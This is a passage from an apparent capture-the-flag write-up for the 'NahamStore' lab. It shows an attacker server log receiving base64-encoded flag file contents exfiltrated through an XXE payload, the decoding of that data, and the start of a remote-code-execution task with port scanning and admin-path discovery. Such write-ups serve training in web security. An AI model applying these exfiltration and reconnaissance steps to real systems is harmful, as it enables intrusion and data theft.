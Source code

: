 ```
10.10.46.5 - - [21/Sep/2022 04:33:36] "GET /xxe.dtd HTTP/1.0" 200 -
10.10.46.5 - - [21/Sep/2022 04:33:36] code 404, message File not found
10.10.46.5 - - [21/Sep/2022 04:33:36] "GET /e2Q2YjIy{Redacted}3ZDhmfQo= HTTP/1.0" 404 -
```

**Successfully retrieved the `flag.txt` in base64 encoded! Let's decode that!**
```
┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore/XXE]
└─# echo "e2Q2YjIy{Redacted}3ZDhmfQo=" | base64 -d
{Redacted}
```

# Task 9 - RCE

```
Find ways to run commands on the webserver. You'll find the flags in /flag.txt
```

1. First RCE flag

**In the Recon section, we also find that there is another HTTP port on 8000:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
[...]
8000/tcp open  http    syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
```

**We can also see that it has a `robots.txt` file, which reveals the `/admin` directory:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore.thm:8000/          
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore.thm:8000/robots.txt
User-agent: *
Disallow: /admin
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl -vv http://nahamstore.thm:8000/admin/
[...]
< Location: /admin/login
```
